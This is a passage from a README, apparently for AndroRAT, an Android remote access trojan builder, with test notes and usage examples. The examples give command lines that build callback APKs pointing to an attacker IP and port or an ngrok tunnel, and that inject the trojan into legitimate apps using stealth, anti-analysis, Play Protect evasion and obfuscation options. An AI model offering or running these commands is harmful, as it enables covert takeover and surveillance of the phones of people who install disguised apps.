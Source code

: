 **Total:** 19+ comprehensive tests ensuring system integrity

### 📖 Test Documentation

For detailed test documentation, see [`tests/README_TESTS.md`](tests/README_TESTS.md)

---

## 🧩 Original Test Components
python3 tests/comprehensive_test.py
```

### 📊 Test Coverage
- ✅ **Python compatibility** validation
- ✅ **CLI functionality** testing
- ✅ **GUI module** import verification
- ✅ **Android manifest** validation
- ✅ **Build system** verification
- ✅ **Modern Android features** testing

---

## 🎯 Examples

### 📱 APK Building Examples

**Basic APK with custom settings:**
```bash
python3 server/androRAT.py --build -i 192.168.1.100 -p 8080 -o basic.apk
```

**Stealth APK with hidden icon:**
```bash
python3 server/androRAT.py --build -i 192.168.1.100 -p 8080 -o stealth.apk
```

**Internet-accessible APK with ngrok:**
```bash
python3 server/androRAT.py --build --ngrok -p 8080 -o online.apk
```

### 💉 APK Injection Examples

**Basic APK Injection:**
```bash
python3 server/androRAT.py --build --inject \
  --target-apk /path/to/legitimate_app.apk \
  -i 192.168.1.100 -p 8080 -o injected_app.apk
```

**Maximum Stealth Injection:**
```bash
python3 server/androRAT.py --build --inject \
  --target-apk /path/to/app.apk -i IP -p PORT -o stealth.apk \
  --stealth --anti-analysis --play-protect-evasion \
  --advanced-obfuscation --random-package
```
